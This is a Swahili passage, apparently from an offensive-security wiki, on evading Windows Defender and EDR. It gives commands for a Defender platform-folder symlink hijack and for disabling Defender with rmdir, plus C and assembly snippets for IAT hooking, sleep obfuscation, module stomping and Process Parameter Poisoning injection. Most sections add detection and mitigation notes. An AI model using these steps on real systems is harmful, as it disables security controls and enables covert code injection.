- Services mpya zilizosanidiwa kujiwasha kiotomatiki na kuendesha binaries zinazotiliwa shaka, na zinazoanza mara kwa mara kabla ya Defender/AV. Chunguza uundaji/urekebishaji wa service unaotokea kabla ya hitilafu za kuanza kwa Defender.
- Ufuatiliaji wa uadilifu wa faili kwenye binaries/directories za Platform za Defender; uundaji/urekebishaji usiotarajiwa wa faili na processes zenye protected-process flags.
- Telemetry ya ETW/EDR: tafuta processes zilizoundwa kwa `CREATE_PROTECTED_PROCESS` na matumizi yasiyo ya kawaida ya kiwango cha PPL na binaries zisizo za AV.

Upunguzaji wa hatari
- WDAC/Code Integrity: zuia ni binaries gani zilizotiwa sahihi zinaweza kuendeshwa kama PPL na chini ya parents gani; zuia matumizi ya ClipUp nje ya miktadha halali.
- Usimamizi wa services: zuia uundaji/urekebishaji wa services zinazojianzisha kiotomatiki na ufuatilie udanganyifu wa mpangilio wa kuanza.
- Hakikisha ulinzi wa Defender dhidi ya tampering na ulinzi wa early-launch umewezeshwa; chunguza hitilafu za kuanza zinazoashiria uharibifu wa binary.
- Fikiria kuzima utengenezaji wa majina mafupi ya 8.3 kwenye volumes zinazohifadhi zana za usalama ikiwa mazingira yako yanaunga mkono (jaribu kikamilifu).

## Kuharibu Microsoft Defender kupitia Utekaji wa Symlink wa Folda ya Toleo la Platform

Windows Defender huchagua platform itakayoendesha kwa kuorodhesha folda ndogo zilizo chini ya:
- `C:\ProgramData\Microsoft\Windows Defender\Platform\`

Huchagua folda ndogo yenye mfuatano wa toleo ulio juu zaidi kwa mpangilio wa lexicographic (kwa mfano, `4.18.25070.5-0`), kisha huanzisha processes za huduma za Defender kutoka humo (na kusasisha paths za service/registry ipasavyo). Uteuzi huu huamini maingizo ya saraka, yakiwemo directory reparse points (symlinks). Msimamizi anaweza kutumia hili kuelekeza Defender kwenye path inayoweza kuandikwa na mshambulizi na kufanikisha DLL sideloading au kuvuruga service.<sup>[[21]](#references)[[22]](#references)</sup>

Masharti ya awali
- Local Administrator (inahitajika kuunda directories/symlinks chini ya folda ya Platform)
- Uwezo wa kuwasha upya au kuanzisha uteuzi upya wa Defender platform (service huanza upya wakati wa kuwasha)
- Zana zilizojengewa ndani pekee ndizo zinazohitajika (mklink)

Kwa nini inafanya kazi
- Defender huzuia uandishi kwenye folda zake yenyewe, lakini uteuzi wake wa platform huamini maingizo ya saraka na kuchagua toleo la juu zaidi kwa mpangilio wa lexicographic bila kuthibitisha kuwa lengwa linaelekezwa kwenye path iliyolindwa/inayoaminika.

Hatua kwa hatua (mfano)
1) Andaa nakala inayoweza kuandikwa ya folda ya sasa ya platform, kwa mfano `C:\TMP\AV`:
```cmd
set SRC="C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.25070.5-0"
set DST="C:\TMP\AV"
robocopy %SRC% %DST% /MIR
```
2) Unda symlink ya directory ya toleo la juu ndani ya Platform inayoelekeza kwenye folda yako:
```cmd
mklink /D "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0" "C:\TMP\AV"
```
3) Uteuzi wa trigger (kuwasha upya kunapendekezwa):
```cmd
shutdown /r /t 0
```
4) Thibitisha kuwa MsMpEng.exe (WinDefend) inaendeshwa kutoka kwenye njia iliyoelekezwa upya:
```powershell
Get-Process MsMpEng | Select-Object Id,Path
# or
wmic process where name='MsMpEng.exe' get ProcessId,ExecutablePath
```
Unapaswa kuona njia mpya ya mchakato chini ya `C:\TMP\AV\` na usanidi wa service/registry ukionyesha eneo hilo.

Chaguo za Post-exploitation
- DLL sideloading/code execution: Weka/badilisha DLL ambazo Defender hupakia kutoka kwenye saraka ya programu yake ili kutekeleza code katika michakato ya Defender. Tazama sehemu iliyo hapo juu: [DLL Sideloading & Proxying](#dll-sideloading--proxying).
- Kuzima service/kukatiza huduma: Ondoa version-symlink ili kwenye uzinduzi unaofuata njia iliyosanidiwa isitatuliwe na Defender ishindwe kuanza:
```cmd
rmdir "C:\ProgramData\Microsoft\Windows Defender\Platform\5.18.25070.5-0"
```

> [!TIP]
> Kumbuka kuwa technique hii haitoi privilege escalation yenyewe; inahitaji haki za admin.

## API/IAT Hooking + Call-Stack Spoofing with PIC (Crystal Kit-style)

Red teams zinaweza kuhamisha runtime evasion kutoka kwenye C2 implant na kuiweka ndani ya target module yenyewe kwa ku-hook Import Address Table (IAT) yake na kuelekeza API zilizochaguliwa kupitia code inayodhibitiwa na mshambuliaji, isiyotegemea mahali ilipopakiwa (PIC). Hii huongeza evasion zaidi ya API chache zinazotolewa na kits nyingi (k.m., CreateProcessA), na kupanua ulinzi huohuo kwa BOFs na post-exploitation DLLs.<sup>[[3]](#references)[[4]](#references)[[5]](#references)</sup>

Mbinu ya jumla
- Pakia PIC blob pamoja na target module kwa kutumia reflective loader (iliyowekwa mwanzoni au kama companion). PIC lazima ijitosheleze na isitegemee mahali ilipopakiwa.
- Host DLL inapopakiwa, pitia IMAGE_IMPORT_DESCRIPTOR yake na urekebishe entries za IAT za imports zinazolengwa (k.m., CreateProcessA/W, CreateThread, LoadLibraryA/W, VirtualAlloc) ili zielekeze kwenye PIC wrappers nyembamba.
- Kila PIC wrapper hutekeleza evasions kabla ya kuita anwani halisi ya API kwa tail-call. Evasions za kawaida ni pamoja na:
  - Kuficha/kufichua memory karibu na call (k.m., encrypt beacon regions, RWX→RX, kubadilisha majina/ruhusa za pages), kisha kurejesha hali ya awali baada ya call.
  - Call-stack spoofing: tengeneza stack isiyo na madhara na uhamie kwenye target API ili call-stack analysis ionyeshe frames zinazotarajiwa.<sup>[[9]](#references)</sup>
- Kwa ajili ya compatibility, toa interface ili Aggressor script (au inayolingana nayo) iweze kusajili API za ku-hook kwa Beacon, BOFs na post-ex DLLs.

Kwa nini IAT hooking hapa
- Hufanya kazi kwa code yoyote inayotumia import iliyo-hookiwa, bila kurekebisha code ya tool au kutegemea Beacon ku-proxy API maalum.
- Hushughulikia post-ex DLLs: ku-hook LoadLibrary* hukuwezesha kuingilia upakiaji wa modules (k.m., System.Management.Automation.dll, clr.dll) na kutumia masking/stack evasion hizo hizo kwenye API calls zake.
- Hurejesha matumizi ya kuaminika ya amri za post-ex zinazozindua processes dhidi ya detections zinazotegemea call-stack kwa ku-wrap CreateProcessA/W.

Muhtasari mdogo wa IAT hook (pseudocode ya x64 C/C++)
```c
// For each IMAGE_IMPORT_DESCRIPTOR
//  For each thunk in the IAT
//    if imported function == "CreateProcessA"
//       WriteProcessMemory(local): IAT[idx] = (ULONG_PTR)Pic_CreateProcessA_Wrapper;
// Wrapper performs: mask(); stack_spoof_call(real_CreateProcessA, args...); unmask();
```
Maelezo
- Tumia patch baada ya relocations/ASLR na kabla ya matumizi ya kwanza ya import. Reflective loaders kama TitanLdr/AceLdr huonyesha hooking wakati wa DllMain ya module iliyopakiwa.
- Weka wrappers ndogo na salama kwa PIC; tatua API halisi kupitia thamani ya awali ya IAT uliyonasa kabla ya kuweka patch, au kupitia LdrGetProcedureAddress.
- Tumia mabadiliko ya RW → RX kwa PIC na epuka kuacha kurasa zikiwa writable+executable.

Call-stack spoofing stub
- PIC stubs za mtindo wa Draugr huunda fake call chain (return addresses zinazoelekeza kwenye modules zisizo na madhara) kisha huingia kwenye API halisi.
- Hii hushinda detections zinazotarajia stacks za kawaida kutoka Beacon/BOFs zinapoita APIs nyeti.
- Iunganishe na mbinu za stack cutting/stack stitching ili kuingia ndani ya frames zinazotarajiwa kabla ya API prologue.

Ujumuishaji wa kiutendaji
- Weka reflective loader mwanzoni mwa post-ex DLLs ili PIC na hooks zianze kiotomatiki DLL inapopakiwa.
- Tumia Aggressor script kusajili target APIs ili Beacon na BOFs zinufaike kwa uwazi na njia hiyo hiyo ya evasion bila mabadiliko ya code.

Mazingatio ya detection/DFIR
- Uadilifu wa IAT: entries zinazoelekeza kwenye anwani zisizo za image (heap/anon); hakiki import pointers mara kwa mara.
- Hitilafu za stack: return addresses zisizomilikiwa na images zilizopakiwa; mipito ya ghafla kwenda kwenye PIC isiyo ya image; mfuatano wa RtlUserThreadStart usiolingana.
- Telemetry ya loader: writes za ndani ya mchakato kwenye IAT, shughuli za mapema za DllMain zinazobadilisha import thunks, maeneo ya RX yasiyotarajiwa yanayoundwa wakati wa upakiaji.
- Kukwepa image-load: ikiwa unahook LoadLibrary*, fuatilia upakiaji wa kutiliwa shaka wa automation/clr assemblies unaohusiana na matukio ya masking ya memory.

Vipengele vya ujenzi na mifano vinavyohusiana
- Reflective loaders zinazofanya IAT patching wakati wa upakiaji (kwa mfano, TitanLdr, AceLdr)
- Memory masking hooks (kwa mfano, simplehook) na stack-cutting PIC (stackcutting)
- PIC call-stack spoofing stubs (kwa mfano, Draugr)


## Import-Time IAT Hooking + Sleep Obfuscation (Crystal Palace/PICO)

### Import-time IAT hooks kupitia PICO inayokaa kwenye memory

Ikiwa unadhibiti reflective loader, unaweza kuhook imports **wakati wa** `ProcessImports()` kwa kubadilisha pointer ya `GetProcAddress` ya loader na custom resolver inayokagua hooks kwanza:<sup>[[6]](#references)[[7]](#references)[[8]](#references)</sup>

- Unda **resident PICO** (persistent PIC object) inayosalia baada ya transient loader PIC kujifuta.
- Export function ya `setup_hooks()` inayobadilisha resolver ya imports ya loader (kwa mfano, `funcs.GetProcAddress = _GetProcAddress`).
- Katika `_GetProcAddress`, ruka ordinal imports na utumie utafutaji wa hook unaotegemea hash kama `__resolve_hook(ror13hash(name))`. Ikiwa hook ipo, irudishe; la sivyo, elekeza ombi kwa `GetProcAddress` halisi.
- Sajili hook targets wakati wa link kwa entries za Crystal Palace `addhook "MODULE$Func" "hook"`. Hook hubaki halali kwa sababu iko ndani ya resident PICO.

Hii huwezesha **import-time IAT redirection** bila kupatch code section ya DLL iliyopakiwa baada ya upakiaji.

### Kulazimisha imports zinazoweza kuhookiwa wakati target inatumia PEB-walking

Import-time hooks huanzishwa tu ikiwa function ipo kwenye IAT ya target. Ikiwa module inatatua APIs kupitia PEB-walk + hash (bila import entry), lazimisha import halisi ili njia ya `ProcessImports()` ya loader iione:

- Badilisha utatuzi wa hashed export (kwa mfano, `GetSymbolAddress(..., HASH_FUNC_WAIT_FOR_SINGLE_OBJECT)`) na rejeleo la moja kwa moja kama `&WaitForSingleObject`.
- Compiler huzalisha IAT entry, na hivyo kuruhusu interception wakati reflective loader inatatua imports.

### Sleep/idle obfuscation ya mtindo wa Ekko bila kupatch `Sleep()`

Badala ya kupatch `Sleep`, hook **primitives halisi za wait/IPC** zinazotumiwa na implant (`WaitForSingleObject(Ex)`, `WaitForMultipleObjects`, `ConnectNamedPipe`). Kwa waits ndefu, funga call ndani ya obfuscation chain ya mtindo wa Ekko inayosimba image ya memory wakati wa idle:<sup>[[31]](#references)[[27]](#references)</sup>

- Tumia `CreateTimerQueueTimer` kupanga mfululizo wa callbacks zinazoita `NtContinue` kwa `CONTEXT` frames zilizotayarishwa.
- Chain ya kawaida (x64): weka image iwe `PAGE_READWRITE` → isimba kwa RC4 kupitia `advapi32!SystemFunction032` kwenye image nzima iliyomapishwa → fanya blocking wait → isimbue kwa RC4 → **rejesha ruhusa za kila section** kwa kupitia PE sections → toa ishara ya kukamilika.
- `RtlCaptureContext` hutoa `CONTEXT` ya kiolezo; itengenezee nakala katika frames nyingi na uweke registers (`Rip/Rcx/Rdx/R8/R9`) ili kuita kila hatua.

Maelezo ya kiutendaji: rudisha “success” kwa waits ndefu (kwa mfano, `WAIT_OBJECT_0`) ili caller iendelee wakati image ikiwa imefichwa. Muundo huu huficha module dhidi ya scanners wakati wa vipindi vya idle na huepuka signature ya kawaida ya “patched `Sleep()`”.

Mawazo ya detection (yanayotegemea telemetry)
- Mfululizo wa callbacks za `CreateTimerQueueTimer` zinazoelekeza kwenye `NtContinue`.
- Matumizi ya `advapi32!SystemFunction032` kwenye buffers kubwa mfululizo zenye ukubwa wa image.
- `VirtualProtect` ya eneo kubwa ikifuatiwa na urejeshaji wa ruhusa maalum kwa kila section.

### Usajili wa CFG wakati wa runtime kwa sleep-obfuscation gadgets

Kwenye targets zinazowasha CFG, indirect jump ya kwanza inayoingia kwenye gadget ya katikati ya function kama `jmp [rbx]` au `jmp rdi` kwa kawaida itasababisha mchakato ku-crash kwa `STATUS_STACK_BUFFER_OVERRUN` kwa sababu gadget haipo kwenye metadata ya CFG ya module. Ili kufanya chains za mtindo wa Ekko/Kraken ziendelee kufanya kazi ndani ya michakato iliyoimarishwa:<sup>[[30]](#references)</sup>

- Sajili kila indirect destination inayotumiwa na chain kupitia `NtSetInformationVirtualMemory(..., VmCfgCallTargetInformation, ...)` na entries za `CFG_CALL_TARGET_VALID`.
- Kwa anwani zilizo ndani ya images zilizopakiwa (`ntdll`, `kernel32`, `advapi32`), `MEMORY_RANGE_ENTRY` lazima ianze kwenye **image base** na ihusishe **ukubwa wote wa image**.
- Kwa maeneo yaliyomapishwa kwa mkono/PIC/stomped, tumia **allocation base** na ukubwa wa allocation badala yake.
- Weka alama si kwa dispatch gadget pekee, bali pia kwa exports zinazofikiwa kwa njia isiyo ya moja kwa moja (`NtContinue`, `SystemFunction032`, `VirtualProtect`, `GetThreadContext`, `SetThreadContext`, wait/event syscalls) na sections zozote zinazoweza kutekelezwa, zinazodhibitiwa na mshambulizi, ambazo zitakuwa indirect targets.

Hii hubadilisha sleep chains za mtindo wa ROP/JOP kutoka “hufanya kazi tu kwenye michakato isiyo na CFG” na kuwa primitive inayoweza kutumika tena kwa `explorer.exe`, browsers, `svchost.exe`, na endpoints nyingine zilizocompiliwa kwa `/guard:cf`.

### Stack spoofing salama kwa CET kwa threads zinazolala

Ubadilishaji kamili wa `CONTEXT` unaonekana wazi na unaweza kushindwa kwenye mifumo ya CET Shadow Stack kwa sababu `Rip` iliyospoofiwa lazima bado ilingane na hardware shadow stack. Muundo salama zaidi wa sleep-masking ni:<sup>[[30]](#references)</sup>

- Chagua thread nyingine katika mchakato huo huo na usome mipaka ya stack ya `NT_TIB` / TEB yake (`StackBase`, `StackLimit`) kupitia `NtQueryInformationThread`.
- Hifadhi nakala ya TEB/TIB halisi ya thread ya sasa.
- Nasa context halisi ya thread inayolala kwa `GetThreadContext`.
- Nakili **`Rip` halisi pekee** kwenye spoof context, huku hali ya `Rsp`/stack iliyospoofiwa ikibaki vilevile.
- Wakati wa kipindi cha kulala, nakili `NT_TIB` ya spoof thread kwenye TEB ya sasa ili stack walkers zifuatilie stack iliyo ndani ya eneo halali.
- Baada ya wait kukamilika, rejesha TIB na thread context ya awali.

Hii huhifadhi instruction pointer inayolingana na CET huku ikiipotosha EDR stack walkers zinazoamini metadata ya TEB ya stack ili kuthibitisha unwinds.

### Njia mbadala inayotumia APC: Kraken Mask

Ikiwa timer-queue dispatch ina signature inayotambulika sana, mfuatano huohuo wa sleep-encrypt-spoof-restore unaweza kutekelezwa kutoka kwa helper thread iliyosimamishwa kwa kutumia queued APCs:<sup>[[27]](#references)</sup>

- Unda helper thread yenye `NtTestAlert` kama entrypoint.
- Weka `CONTEXT` frames/APCs zilizotayarishwa kwenye foleni kwa `NtQueueApcThread` na zitekeleze kwa `NtAlertResumeThread`.
- Hifadhi hali ya chain kwenye heap badala ya helper stack ili kuepuka kuimaliza thread stack ya kawaida ya 64 KB.
- Tumia `NtSignalAndWaitForSingleObject` kutoa ishara kwa start event na kusubiri kwa wakati mmoja.
- Simamisha main thread kabla ya kurejesha TIB/context (`NtSuspendThread` → restore → `NtResumeThread`) ili kupunguza muda wa race ambapo scanner inaweza kunasa stack ambayo haijarejeshwa kikamilifu.

Hii hubadilisha signature ya `CreateTimerQueueTimer` + `NtContinue` na kuweka signature ya helper-thread/APC huku ikihifadhi malengo yale yale ya RC4 masking na stack-spoofing.

Mawazo ya ziada ya detection
- `NtSetInformationVirtualMemory` yenye `VmCfgCallTargetInformation` muda mfupi kabla ya sleeps, waits, au APC dispatch.
- `GetThreadContext`/`SetThreadContext` zinazotumika pamoja na `WaitForSingleObject(Ex)`, `NtWaitForSingleObject`, `NtSignalAndWaitForSingleObject`, au `ConnectNamedPipe`.
- `NtQueryInformationThread` ikifuatiwa na writes za moja kwa moja kwenye mipaka ya stack ya TEB/TIB ya thread ya sasa.
- Chains za `NtQueueApcThread`/`NtAlertResumeThread` zinazofikia kwa njia isiyo ya moja kwa moja `SystemFunction032`, `VirtualProtect`, au helpers za kurejesha ruhusa za sections.
- Matumizi yanayojirudia ya gadget signatures fupi kama `FF 23` (`jmp [rbx]`) au `FF E7` (`jmp rdi`) kama dispatch pivots ndani ya modules zilizosainiwa.


## Precision Module Stomping

Module stomping huendesha payloads kutoka **`.text` section ya DLL ambayo tayari imepangwa ndani ya mchakato lengwa** badala ya kutenga memory ya faragha inayoweza kutambulika kwa urahisi au kupakia DLL mpya ya kutolewa kafara. Lengo la overwrite linapaswa kuwa **image iliyopakiwa kutoka diski** yenye nafasi ya code inayoweza kubeba payload bila kuharibu njia za code ambazo mchakato bado unahitaji.<sup>[[1]](#references)[[2]](#references)</sup>

### Uchaguzi wa lengo unaotegemewa

Stomping ya moja kwa moja dhidi ya modules za kawaida kama `uxtheme.dll` au `comctl32.dll` si ya kutegemewa: DLL inaweza kuwa haijapakiwa kwenye mchakato wa mbali, na eneo dogo mno la code litasababisha mchakato ku-crash. Mchakato unaotegemewa zaidi ni:

1. Orodhesha modules za mchakato lengwa na uweke orodha ya kujumuisha ya **majina pekee** ya DLL zilizopakiwa tayari.
2. Jenga payload kwanza na urekodi **ukubwa wake halisi kwa bytes**.
3. Changanua DLL zinazoweza kulengwa kwenye diski na ulinganishe PE section **`.text` `Misc_VirtualSize`** na ukubwa wa payload. Hili ni muhimu zaidi kuliko ukubwa wa faili kwa sababu linaonyesha ukubwa wa executable section **inapomapishwa kwenye memory**.
4. Changanua **Export Address Table (EAT)** na uchague RVA ya function iliyosafirishwa kama offset ya kuanzia ya stomp.
5. Kokotoa **eneo litakaloathiriwa**: ikiwa payload ni kubwa kuliko mpaka wa function iliyochaguliwa, itafunika exports zilizo karibu ambazo zimepangwa baada yake kwenye memory.

Helpers za kawaida za recon/uchaguzi zinazoonekana kwenye matumizi halisi:

```cmd
list-process-dlls.exe -p <PID> -n -o c:\payloads\modules.txt
python find-stompable-dlls.py -d c:\Windows\System32 -i c:\payloads\modules.txt <payload_size>
python dump-exports.py -f <dll_path>
python blast-radius.py -f <dll_path> -fnc <export_name> -s <payload_size>
```

Operational notes
- Pendelea DLLs **ambazo tayari zimepakiwa** kwenye mchakato wa mbali ili kuepuka telemetry ya `LoadLibrary`/upakiaji wa picha usiotarajiwa.
- Pendelea exports ambazo programu lengwa hutekeleza mara chache; vinginevyo, njia za kawaida za msimbo zinaweza kugusa bytes zilizobadilishwa kabla au baada ya kuundwa kwa thread.
- Implant kubwa mara nyingi huhitaji kubadilisha uingizaji wa shellcode kutoka string literal hadi **byte-array/braced initializer** ili buffer nzima iwakilishwe ipasavyo kwenye source ya injector.

Mawazo ya kugundua
- Uandishi wa mbali kwenye **kurasa zinazotekelezeka zinazotegemea image** (`MEM_IMAGE`, `PAGE_EXECUTE*`) badala ya allocations za kawaida zaidi za private RWX/RX.
- Entry points za export ambazo bytes zake zilizo kwenye memory hazilingani tena na faili husika kwenye diski.
- Remote threads au context pivots zinazoanza kutekelezwa ndani ya export halali ya DLL ambayo bytes zake za mwanzo zilibadilishwa hivi karibuni.
- Mfuatano wa kutiliwa shaka wa `VirtualProtect(Ex)` / `WriteProcessMemory` unaolenga kurasa za DLL `.text`, ukifuatiwa na kuundwa kwa thread.

## Process Parameter Poisoning (P3)

Process Parameter Poisoning (P3) ni mbinu ya **process-injection / EDR-evasion** inayokwepa njia ya kawaida ya uandishi wa mbali (`VirtualAllocEx` + `WriteProcessMemory`). Badala ya kunakili bytes kwenye target ambayo tayari inaendeshwa, inatumia ukweli kwamba Windows **hunakili vigezo teule vya kuanzisha `CreateProcessW` kwenda kwenye child process** na kuvihifadhi ndani ya `PEB->ProcessParameters` (`RTL_USER_PROCESS_PARAMETERS`).<sup>[[28]](#references)[[29]](#references)</sup>

### Carriers zinazoweza kuwekewa sumu na kunakiliwa na `CreateProcessW`

Carriers zinazofaa ni:

- `lpCommandLine` → `RTL_USER_PROCESS_PARAMETERS.CommandLine`
- `lpEnvironment` (pamoja na `CREATE_UNICODE_ENVIRONMENT`) → `RTL_USER_PROCESS_PARAMETERS.Environment`
- `STARTUPINFO.lpReserved` → `RTL_USER_PROCESS_PARAMETERS.ShellInfo`

Vikwazo vya vitendo kwa carriers:

- `lpCommandLine` lazima ielekeze kwenye **memory inayoweza kuandikwa** kwa `CreateProcessW`, na ina kikomo cha **herufi 32,767 za Unicode** ikijumuisha terminator ya null.
- `lpEnvironment` lazima iwe block ya environment ya Unicode yenye mifuatano mfululizo ya `NAME=VALUE\0` inayoishia na `\0` ya ziada.
- `lpReserved` imehifadhiwa rasmi, kwa hivyo ulinganifu wa `ShellInfo` unapaswa kuchukuliwa kama maelezo ya utekelezaji badala ya mkataba thabiti ulioandikwa.

Hii hugeuza uundaji wa kawaida wa mchakato kuwa **primitive ya kuhamisha payload**. Operator huunda child process kwa data ya kuanzisha inayodhibitiwa na mshambuliaji, kisha huiwezesha Windows kufanya nakala kati ya michakato.

### Mtiririko wa utafutaji wa mbali bila API za uandishi wa mbali

Baada ya child kuundwa, tafuta buffer iliyonakiliwa kwa kutumia primitives za **kusoma tu**:

1. `NtQueryInformationProcess(ProcessBasicInformation)` → pata `PROCESS_BASIC_INFORMATION.PebBaseAddress`
2. Soma `PEB` ya mbali
3. Fuata `PEB.ProcessParameters`
4. Soma `RTL_USER_PROCESS_PARAMETERS`
5. Tumia pointer iliyochaguliwa:
   - `parameters.CommandLine.Buffer`
   - `parameters.Environment`
   - `parameters.ShellInfo.Buffer`

Mtiririko wa chini kabisa:

```c
NtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), &retLen);
NtReadVirtualMemoryEx(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), &bytesRead, 0);
NtReadVirtualMemoryEx(hProcess, peb.ProcessParameters, &params, sizeof(params), &bytesRead, 0);
// params.CommandLine.Buffer / params.Environment / params.ShellInfo.Buffer
```

### Kutekeleza buffer ya parameter iliyonakiliwa

Eneo la parameter lililonakiliwa kwa kawaida ni `RW`, si la kutekelezeka. Mlolongo wa kawaida wa P3 ni:

1. Unda process kama kawaida (bila kuisimamisha)
2. Fanya ukurasa wa parameter uliochaguliwa uweze kutekelezeka kwa `NtProtectVirtualMemory` / `VirtualProtectEx`
3. Tumia tena handle ya main thread ambayo tayari imerudishwa kwenye `PROCESS_INFORMATION`
4. Elekeza upya utekelezaji kwa `NtSetContextThread` (`CONTEXT_CONTROL`, andika juu ya `RIP`)

Tofauti na workflows za kawaida za thread hijacking, hili **halihitaji** `SuspendThread` / `ResumeThread`; context inaweza kubadilishwa moja kwa moja kupitia handle ya main thread iliyorudishwa.

Hili huepuka API kadhaa ambazo hufuatiliwa mara nyingi kwa ajili ya injection:

- `VirtualAllocEx` / `NtAllocateVirtualMemory(Ex)`
- `WriteProcessMemory` / `NtWriteVirtualMemory`
- `CreateRemoteThread` / `NtCreateThreadEx`
- mara nyingi pia `SuspendThread` / `ResumeThread`

### Kizuizi cha null-byte na shellcode ya hatua kwa hatua

Carriers zote tatu ni **data ya string au inayofanana na string**, kwa hivyo payload ghafi yenye `0x00` hukatizwa wakati wa uhamishaji. Suluhisho la vitendo ni kutumia **hatua ya kwanza isiyo na null** inayounda upya constants wakati wa runtime, kisha kupakia hatua ya pili yoyote.

Muundo rahisi ni usanisi wa constant unaotegemea XOR:

```asm
mov rax, XOR_A
mov r15, XOR_B
xor rax, r15 ; result = desired value, without embedding 0x00 bytes
```

Hii huwezesha hatua ya kwanza kuunda strings za stack, hoja za API, njia za DLL, au loader ya shellcode ya hatua ya pili bila kuweka null bytes kwenye parameter inayosafirishwa.

### Miito ya API inayotumia stack kutoka hatua ya kwanza

Hatua ya kwanza inapohitaji kuita API kama `LoadLibraryA`, inaweza:

- kusukuma string/buffer kwenye stack ya lengo
- kuhifadhi **32-byte x64 shadow space**
- kuweka `RCX`, `RDX`, `R8`, `R9` ziwe constants au pointers zinazohusiana na `RSP`
- kuhakikisha `RSP` imepangiliwa kwa **16-byte** kabla ya mwito

Kisha hatua ya pili inaweza kunakiliwa kutoka stack hadi kwenye allocation ya `PAGE_READWRITE`, kubadilishwa kuwa `PAGE_EXECUTE_READ` kwa kutumia `VirtualProtect`, na kurukia humo, hivyo kuepuka allocation ya moja kwa moja ya RWX.

### Mawazo ya utambuzi

Fursa nzuri za uchunguzi zilizotajwa na waandishi:

- `VirtualProtectEx` / `NtProtectVirtualMemory` kubadilisha kurasa za process-parameter ziwe executable
- mabadiliko hayo ya protection yakifuatiwa na `SetThreadContext` / `NtSetContextThread`
- usomaji wa mbali wa `PEB` kisha `RTL_USER_PROCESS_PARAMETERS`
- thamani za `lpCommandLine`, `lpEnvironment`, au `STARTUPINFO.lpReserved` ambazo ni ndefu au zina entropy ya juu isivyo kawaida wakati wa kuunda process

### Vidokezo

- P3 ni **mbinu ya kuhamisha data kati ya processes**, si primitive kamili ya execution yenyewe: parameter iliyonakiliwa bado inahitaji kubadilishiwa execute-permission na njia ya kuelekeza execution.
- `RtlCreateProcessReflection` / Dirty Vanity ilizingatiwa na waandishi lakini ikakataliwa kwa sababu ndani yake hufikia primitives zinazotia shaka kama `NtWriteVirtualMemory` na `NtCreateThreadEx`.

Kwa uwasilishaji wa payload kwenye process ya Windows **iliyopo tayari** kupitia thread descriptions, na kisha kuteka nyara return address ya thread inayosubiri, tazama [Thread Name-Calling and Waiting Thread Hijacking](windows-process-injection-thread-name-calling-waiting-thread-hijacking.md).

## Uingizaji kupitia pipe ya Console STDIN

Child process ya console inayotumika kwa mwingiliano pia inaweza kutumiwa kama **primitive ya kuhamisha payload**. Injector huelekeza standard input ya child kwenye pipe na kutuma marker ikifuatiwa na shellcode. Programu ya console inaposoma data hiyo kwenye memory yake binafsi, injector hutafuta buffer hiyo, huifanya iwe executable na kuelekeza thread ya child humo. Hii huepuka `VirtualAllocEx` na `WriteProcessMemory`, lakini bado ni process injection badala ya EDR bypass ya jumla.<sup>[[41]](#references)</sup>

Licha ya maelezo ya "named-pipe", implementation ya rejeleo huita `CreatePipe`, ambayo huunda **anonymous pipe**. Windows hutekeleza anonymous pipes kwa kutumia pipe objects zenye majina ya kipekee ndani ya mfumo, lakini PoC hii haichagui njia ya `\\.\pipe\<name>` wala kuita `CreateNamedPipe`. Huunda handles zinazoweza kurithiwa kwa kutumia security descriptor chaguomsingi, huweka read handle kwenye `STARTUPINFO.hStdInput`, huweka `STARTF_USESTDHANDLES`, na huzindua child mpya huku urithi wa handle ukiwa umewashwa. Kwa hiyo, PoC hii huzindua console executable iliyotolewa; haiunganishi pipe yake kwenye process iliyopo.<sup>[[41]](#references)[[42]](#references)[[43]](#references)</sup>

### Mfuatano wa hatua za marejeleo

Implementation hutumia mfuatano ufuatao:<sup>[[41]](#references)</sup>

1. Unda jozi za anonymous pipe kwa `STDIN` na `STDOUT` za child. Zima urithi kwenye handles mbili za upande wa parent na funga nakala za upande wa child kwenye parent baada ya kuunda process.
2. Zindua executable inayotumika kwa mwingiliano kama `netsh.exe` au `nslookup.exe` kwa `CREATE_NEW_CONSOLE`. Child hurithi standard handles zilizoelekezwa upya.
3. Tuma array kamili ya binary ya `rawData` kwa `WriteFile` kupitia handle ya `STDIN` iliyo upande wa parent. Programu ya console hutumia bytes hizo na kuacha nakala yake kwenye mojawapo ya maeneo yake binafsi yaliyotengewa memory.
4. Kagua address space ya child kwa `VirtualQueryEx`, soma maeneo ya `MEM_PRIVATE` yanayoweza kufaa kwa `ReadProcessMemory`, na utafute marker mwanzoni mwa `rawData`.
5. Badilisha buffer iliyogunduliwa iwe `PAGE_EXECUTE_READWRITE` kwa `VirtualProtectEx`.
6. Tambua thread kuu, isimamishe, weka `RIP` iwe `found_address + 0x19` kwa `NtSetContextThread`, kisha iendelee.

```powershell
InjectSetConsole.exe C:\Windows\System32\netsh.exe
```

Utekelezaji uliotolewa ni mahususi kwa x64: hubadilisha `CONTEXT.Rip`, na payload yake iliyopachikwa ni x64 shellcode. `rawData` huanza na alama ya baiti 25, kwa hiyo baiti zinazotekelezeka huanza kwenye offseti ya heksadesimali `0x19`. Unapobadilisha payload, hifadhi mpangilio huo au usasishe alama, vekta ya utafutaji, ukubwa wa array na offseti ya utekelezaji kwa pamoja. Maoni ya chanzo pia yanaorodhesha `0x0A`, `0x0D` na `0x1A` kama vibambo vinavyosababisha matatizo. Utiririko huu wa kazi haubadilishi tokeni au ruhusa za child process.<sup>[[41]](#references)</sup>

Kwa helper ndogo za native na mifumo ya kucompile payload, tazama [Windows C Payloads](windows-local-privilege-escalation/windows-c-payloads.md).

## Thread-pool callback DLL injection bila shellcode (DLLParty)

DLLParty hubadilisha thread-pool injection ya mtindo wa PoolParty ili worker iliyopo kwenye target iite `LoadLibraryA`, badala ya kutekeleza callback stub iliyoingizwa. Primitive yake ya dispatch ni completion ya `TP_DIRECT` inayowekwa kwenye foleni ya I/O completion port ya pool ya target. Hii haivuki ruhusa za process: PoC huita `OpenProcess(PROCESS_ALL_ACCESS)` na inahitaji kumbukumbu ya target inayoweza kusomwa/kuandikwa, pamoja na handles za worker-factory na completion-port zinazoweza kunakiliwa.<sup>[[46]](#references)[[47]](#references)</sup>

